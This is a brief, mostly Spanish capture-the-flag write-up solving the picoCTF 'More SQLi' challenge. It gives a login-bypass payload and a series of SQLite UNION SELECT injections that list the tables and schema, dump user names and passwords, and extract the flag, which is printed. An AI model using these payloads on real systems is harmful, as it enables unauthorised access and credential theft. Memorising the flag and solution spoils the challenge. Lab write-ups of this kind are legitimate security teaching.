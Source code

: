 # More SQLi
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

## Solucion

- Inyección en SQLI SQLite
- Primero pasamos el login con inyección en password
```
' or 1=1;
```
- Luego en la búsqueda inyectamos para obtener la info
```
search=Lagos' union select 1,2,sqlite_version() ;&submit=Search
search=Lagos' union select 1,2,tbl_name from sqlite_master ;&submit=Search
search=Lagos' union select 1,2,sql from sqlite_master ;&submit=Search
search=Lagos' union select 1,name,password from users ;&submit=Search
search=Lagos' union select 1,2,flag from more_table ;&submit=Search

```
## Bandera
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}

## Referencias

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md